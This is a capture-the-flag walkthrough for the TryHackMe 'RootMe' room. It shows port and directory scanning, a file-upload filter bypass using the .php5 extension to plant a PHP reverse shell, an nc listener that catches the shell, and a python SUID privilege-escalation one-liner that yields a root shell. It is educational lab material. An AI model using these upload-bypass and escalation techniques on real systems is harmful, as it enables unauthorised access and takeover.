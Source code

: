 #### A easy level CTF. Link of the CTF is <br>https://tryhackme.com/room/rrootme
# Steps followed
1.
![Alt text](images/a.png "Title")
## Task 1:- Deploy the machine
2. Deployed the machine.<br>
## Task 2:-
3. Use <b><ins>nmap/zenmap</ins></b> for finding open ports.<br>
```
nmap -sV -T4 -O -F --version-light <ip-address>
```
4.
![Alt text](images/b.png "Title")
<br>
6.
![Alt text](images/c.png "Title")
### First Question:- Scan the machine, how many ports are open?
6. So as we can see from the screenshot that 2 ports 22 and 80 are open.
### Second Question:- What version of Apache is running?
7. Here, we can see the version of Apache that is runnung on port 80.
### Third Question:- What service is running on port 22?
8. we can see that on port 22 ssh is running.
### Forth Question:- Find directories on the web server using the GoBuster tool.
```
gobuster dir -u http://<ip-address> -w /usr/share/wordlists/dirb/common.txt
```
9.
![Alt text](images/d.png "Title")
<br>
10.
![Alt text](images/e.png "Title")
### Fifth Question:- What is the hidden directory?
11. We can see from the screenshot that there are useful directries like js,css but our answer is of 5 letter directory name :- <ins><b> /panel/ </b></ins>
12.
![Alt text](images/f.png "Title")
## Task 3:-
### user.txt?
13.![Alt text](images/g.png "Title")
We first tried to upload Shell.php into the site but was not able to then we tried to try different php extensions like .php2,.php3,.php4 etc.
<br>
Luckily .php5 worked and we were able to upload reverse shell into the site.<br>
14. But still we are not able to get a shell. For it we need to run that file which can be done by going to another directory /uploads/.<br>
We will run 
```
nc -lvnp 1234
```
on the terminal and run our file on the site.
<br>
Hence, We received the shell in the terminal.
15. Then, we will use the following command to find where <b><ins> user.txt </b></ins>
really is
```
find / -name "user.txt" 2>/dev/null
```
16. We will get the directory where it is and do cat
```
cat /var/bin/user.txt
```
and Hence we find our flag.
```
THM{***_***_*_*****}
```
## Task 4
### First Question :- Search for files with SUID permission, which file is weird?
17. To find this we will use the following terminal cmd
```
find / -user root -perm /4000 2>/dev/null
```
now we will see all directories which file seems to be wierd.
<br>
18. And we found that file
```
/usr/bin/python
```
### Second Question :- Find a form to escalate your privileges.
19. We search for getfobins :- https://gtfobins.github.io/#+suid
<br>
20. we search for the python privilege escatalation and we found the following:-
```
sudo install -m =xs $(which python)
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
and by applying it we get to the root user.
### Third Question :- root.txt
21. We implement the cmd
```
cat /root/root.txt
```
and we found our root flag
```
THM{*********_**********}
```
